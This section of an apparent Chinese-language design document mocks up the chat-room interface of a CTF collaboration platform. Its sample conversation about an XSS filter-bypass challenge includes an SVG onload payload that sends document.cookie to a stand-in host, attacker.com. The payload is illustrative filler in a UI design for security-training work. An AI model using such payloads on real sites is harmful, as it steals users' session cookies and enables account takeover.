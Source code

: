 ```
```

---

### 5.3 题目聊天室界面

```
┌──────────────────────────────────────────────────────────┐
│  #Web-200 XSS绕过过滤                     [题目详情] [X] │
├──────────────────────────────────────────────────────────┤
│  📌 置顶: 题目链接 http://target.com:8080               │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━  │
│                                                          │
│  alice  10:25                                  [回复]   │
│  我发现输入会被 DOMPurify 过滤                          │
│  尝试了 <script> 标签被直接删除                         │
│                                                          │
│  bob  10:30                                    [回复]   │
│  可以试试事件处理器，比如 <img onerror=...>             │
│                                                          │
│  alice  10:35                      📁 payload.js [下载] │
│  写了个 fuzz 脚本，大家可以用                           │
│                                                          │
│  ┌─ 回复 bob ────────────────────────────────┐          │
│  │ 可以试试事件处理器...                     │          │
│  └──────────────────────────────────────────┘          │
│  alice  10:40                                           │
│  成功了！用 <svg/onload=alert(1)>                       │
│  ```javascript                                          │
│  <svg/onload=fetch('//attacker.com?c='+document.cookie)>│
│  ```                                                    │
│  #xss #success                                          │
│                                                          │
│  🤖 系统  10:45                                         │
│  alice 更新了进度: 80% - 构造 Payload 成功              │
│                                                          │
│  charlie (管理员) 10:50                        [回复]   │
│  👍 做得好！注意绕过 CSP                                 │
│                                                          │
│  alice  11:20                                           │
│  拿到了！flag{dom_xss_bypass_filter_2024}               │
│                                                          │
│  🤖 系统  11:20                                         │
│  🎉 alice 成功解出了题目！                              │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━  │
│                                                          │
├──────────────────────────────────────────────────────────┤
│  [@提及] [#标签] [📎文件] [</> 代码] [😀 Emoji]         │
│  ┌────────────────────────────────────────────────────┐ │
│  │ 输入消息...                                        │ │
│  └────────────────────────────────────────────────────┘ │
│                                         [发送 (Ctrl+Enter)]│
└──────────────────────────────────────────────────────────┘
```

---
